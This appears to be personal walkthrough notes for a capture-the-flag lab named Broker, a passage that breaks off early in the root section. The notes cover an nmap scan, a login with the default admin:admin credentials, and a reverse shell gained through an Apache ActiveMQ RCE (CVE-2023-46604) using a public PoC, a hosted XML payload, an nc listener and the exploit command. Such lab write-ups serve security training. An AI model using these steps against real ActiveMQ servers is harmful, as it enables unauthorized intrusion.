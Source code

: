 Exploitable externally and something identified on past engagements
* Host information: `10.129.231.4`
# User
* `nmap -sC -sV 10.129.231.4`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-12 13:54 EDT
Nmap scan report for 10.129.231.4
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.47 seconds
```
* Browsing to port 80 takes you to a login page
	* looked up default creds for ActiveMQRealm (`admin:admin`)
	* resulted in a successful login
![](Broker-paste.png)
* Seeing as the lab is called broker I decided to investigate the `Manage ActiveMQ broker` link
![](Broker-paste-1.png)
* I can see that the version is 5.15.15, so I decided to investigate potential vulnerabilities for this version
	* https://nvd.nist.gov/vuln/detail/CVE-2023-46604
* looked up CVE-2023-46604 poc and got https://github.com/evkl1d/CVE-2023-46604
	* The POC needs to be running on a webserver **you host** not on the website
		* `python -m http.server 8081`
	* Also need a nc listener
		* `sudo nc -nlvp 8100`
	* THEN you run the exploit command: `python exploit.py -i <target-ip> -p <target-port> -u <url-to-poc.xml>`
		* The target port is **NOT** port 80, but 61616
			* port 80 is the UI
			* port 61616 is the default port it's running on
* This will call back as a reverse shell for the user `activemq`
	* the home directory has the user flag
# Root
* First thought is to see if root is not password protected with `sudo su` but no luck
* I de
